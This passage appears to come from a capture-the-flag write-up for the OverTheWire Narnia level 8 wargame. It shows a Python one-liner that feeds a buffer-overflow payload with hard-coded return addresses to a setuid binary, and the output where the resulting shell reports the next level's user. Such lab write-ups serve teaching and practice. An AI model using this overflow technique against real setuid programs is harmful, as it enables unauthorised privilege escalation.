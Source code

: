 It looks like it is. Now we'll have to fuzz the address of the shellcode.

```
narnia8@narnia:~$ /narnia/narnia8 $(python -c 'print "A" * 20 + "\x72\xd8\xff\xff" + "B"*12 +"\x93\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAAr���BBBBBBBBBBBB����r���
$ whoami
narnia9
$    
```
Which wasn't too bad in this case.

[overthewire]: https://www.overthewire.org

